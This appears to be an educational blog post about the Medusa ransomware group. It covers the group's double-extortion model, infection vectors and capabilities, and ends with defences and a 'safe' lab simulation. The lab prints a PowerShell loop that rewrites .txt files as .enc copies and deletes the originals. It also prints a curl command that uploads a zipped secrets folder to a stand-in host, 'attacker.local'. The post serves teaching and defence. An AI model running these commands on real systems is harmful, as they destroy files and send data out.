 ```yaml
---
title: "The Rise of Medusa Ransomware: What Students and Organizations Need to Know"
date: 2025-03-18
description: "A breakdown of the Medusa ransomware threat, with a hands-on educational lab simulation to help cybersecurity learners understand its methods, impacts, and how to respond."
tags:
  - Ransomware
  - Medusa
  - Cybersecurity Threats
  - Incident Response
  - Email Security
  - Hands-On Learning
featured_image: "/images/digital-security-lock.png"
---
```


# The Rise of Medusa Ransomware: What Students and Organizations Need to Know

## Introduction
Cybersecurity students and professionals were recently alerted to a growing threat: the **Medusa ransomware group** is actively targeting Gmail, Outlook, and organizations across multiple critical infrastructure sectors. According to reports from the FBI and private threat intelligence firms, Medusa has evolved into a highly capable ransomware-as-a-service (RaaS) platform that enables affiliates to launch disruptive and damaging attacks.

This post explores **how Medusa operates**, how you can simulate a similar attack scenario safely for educational purposes, and what steps organizations and learners should take to strengthen their defenses.

## What Is Medusa Ransomware?
First observed in early 2023, **Medusa** is a sophisticated ransomware variant that follows a double-extortion model:
- **Encrypting files** across targeted systems and demanding ransom for decryption keys.
- **Exfiltrating sensitive data** and threatening public release if payment isn’t made.

Medusa has primarily targeted sectors such as:
- **Healthcare**
- **Education**
- **Government services**
- **Manufacturing and logistics**

These sectors are often vulnerable due to:
- Aging infrastructure
- Inconsistent patching practices
- Limited cybersecurity personnel

### Common Infection Vectors
Medusa typically infiltrates networks using:
- **Phishing emails** impersonating Microsoft, Google, or shipping services
- **Exploited RDP (Remote Desktop Protocol) services** with weak or leaked credentials
- **Malvertising** that delivers trojanized installers for legitimate software

### Capabilities
Once inside a system or network, Medusa executes several key actions:
- Disables security software and EDR tools
- Moves laterally to infect shared drives and servers
- Uses batch or PowerShell scripts to encrypt files
- Leverages command and control (C2) servers for communication and remote control
- Sends ransom demands via on-screen messages and dropped ransom notes

Some attacks have also included scheduled task creation to ensure persistence, and selective targeting of backup files to prevent recovery.

## Turning the Threat Into a Teachable Moment
Understanding how Medusa works is critical for cybersecurity students, educators, and professionals. The best way to internalize these attack chains is through **safe, hands-on simulation**.

## Simulated Lab: Medusa-Inspired Ransomware Attack (Safe & Controlled)
This educational lab replicates the TTPs (Tactics, Techniques, and Procedures) seen in Medusa attacks—without using any real ransomware.

### Required Environment
- Virtual Machines (Windows/Linux)
- PowerShell or Python scripting
- Wireshark for traffic analysis
- Wazuh or Splunk for detection/logging
- (Optional) GoPhish for phishing simulation

### Simulation Objectives
- Mimic a phishing email with a disguised malicious ZIP attachment
- Trigger a fake payload that renames or encodes files
- Simulate outbound exfiltration using mock FTP or HTTP POST
- Detect and respond using log analysis and SIEM tools

### PowerShell Example (Simulated Encryption)
```powershell
Get-ChildItem "C:\Users\Student\Documents" -Recurse -Include *.txt | ForEach-Object {
    $content = Get-Content $_.FullName
    $bytes = [System.Text.Encoding]::UTF8.GetBytes($content)
    [System.IO.File]::WriteAllBytes("$($_.FullName).enc", $bytes)
    Remove-Item $_.FullName
}
```

### Exfiltration Simulation
```bash
zip -r exfil.zip /home/student/secrets/
curl -T exfil.zip ftp://attacker.local --user test:pass
```

### Detection Opportunities
- File extension changes
- Unusual ZIP and network transfer activity
- Suspicious script executions

## Real-World Defenses Against Medusa
To mitigate threats like Medusa, organizations and individuals should implement:
- **Multi-Factor Authentication (MFA)** across accounts and services
- **Endpoint Detection and Response (EDR)** with behavioral monitoring
- **Frequent patching** of RDP services, VPNs, and publicly exposed systems
- **User training** to detect phishing attempts
- **Segmentation** of critical infrastructure from user networks
- **Regular, tested backups** stored offline or in immutable formats

## Learning Outcomes for Students and Professionals
- Practice detecting suspicious behavior in logs
- Simulate ransomware infection in a safe environment
- Conduct forensic analysis of simulated incidents
- Build familiarity with open-source SIEM tools
- Understand how attackers chain exploits together

## Conclusion
Medusa ransomware is not just another malware strain—it represents the evolving complexity of modern cyberattacks. By studying it closely and simulating its techniques safely, cybersecurity learners and professionals can better understand how to defend against it.

This threat is serious—but it's also a **powerful opportunity to grow your skills**. Through hands-on labs, detection engineering, and real-world research, we can all become more effective defenders.

